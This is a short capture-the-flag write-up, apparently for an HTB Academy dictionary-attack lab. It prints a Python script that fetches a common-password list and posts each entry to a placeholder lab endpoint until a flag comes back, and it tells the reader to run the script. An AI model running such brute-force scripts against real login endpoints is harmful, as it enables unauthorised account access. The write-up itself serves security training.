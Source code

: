 # Dictionary Attacks

After successfully brute-forcing the target using the script, what is the full flag the script returns?

Similar to the last challenge we'll have use a script provided by HTB find the flag after executing a simple dictionary brute force attack.

To solve this we can you the script provided by the HTB:

{% code overflow="wrap" %}
```python
import requests

ip = "SERVER_IP"  # Change this to your instance IP address
port = PORT       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```
{% endcode %}



Make sure to replace the IP e and PORT of your target machine.

Then just run the script and wait for the results:

```bash
python dictionary-solver.py
```

<figure><img src="../../../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

After a while, the script eventually gets the password and we find our flag!

